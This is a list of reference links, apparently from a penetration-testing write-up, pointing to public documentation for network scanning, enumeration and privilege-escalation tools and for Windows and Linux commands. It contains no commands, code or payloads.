- [File inclusion vulnerability - Wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)
- [FileZilla - Wikipedia](https://en.wikipedia.org/wiki/FileZilla)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [icacls - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
- [MariaDB - Wikipedia](https://en.wikipedia.org/wiki/MariaDB)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [Msfvenom - Metasploit Docs](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
- [Msfvenom - Kali Tools](https://www.kali.org/tools/metasploit-framework/#msfvenom)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [php-reverse-shell.php - ivan-cincek - GitHub](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
- [schtasks - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
- [winPEAS - GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [XAMPP - Wikipedia](https://en.wikipedia.org/wiki/Xampp)
